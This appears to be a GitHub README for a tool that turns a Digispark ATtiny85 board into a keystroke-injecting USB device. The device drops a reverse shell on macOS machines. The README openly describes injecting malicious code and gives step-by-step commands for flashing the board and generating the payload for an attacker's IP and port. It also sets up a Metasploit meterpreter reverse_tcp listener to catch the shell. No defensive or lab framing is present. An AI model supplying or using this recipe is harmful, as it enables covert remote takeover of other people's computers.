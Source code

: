 ## Digispark reverse shell

The script creates either reverse shell python script or arduino sketch for digispark. The script is compatible with metasploit.</br>
This Digispark sketch is intended to run on OS X operating System.

## What is digispark?
Digispark is a Attiny85 based microcontroller that can be used as trusted HID-MIDI device. This project exploits the function and injects malicious code into the machine. 

## Features

- Creates a reverse shell python script
- Creates a Arduino sketch for digispark

## Arduino Configuration

To flash the digispark module, you need to add this link to your boards maneger</br>
Arduino > File > Preferences > Additional Boards Manager URLs:
```
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
```

Once the link is added, head over to Tools > Bord > Boards Manager, search for "Digistump AVR Boards" and make sure it is installed.


## Installation

Clone this repository
``` 
git clone https://github.com/https-sam/digispark_reverse_shell.git
```

```
cd scripts
```

`-p and -i tags` are required.
```
python3 payloadGenerator.py -i IP ADDRESS -p PORT
```

`-py True` is optional, which only creates a python reverse shell script.
```
python3 payloadGenerator.py -i IP Address -p PORT -py True
```


## Set up

Metsploit can be used as a listener
``` 
msfconsole
use multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport PORT
run
````



## License

MIT


- [Digistump](https://github.com/digistump/DigisparkArduinoIntegration/blob/master/libraries/DigisparkKeyboard/DigiKeyboard.h) - Library for digispark
- [Micronucleus](https://github.com/micronucleus/micronucleus) - processor
- [Metasploit](https://github.com/rapid7/metasploit-framework) 


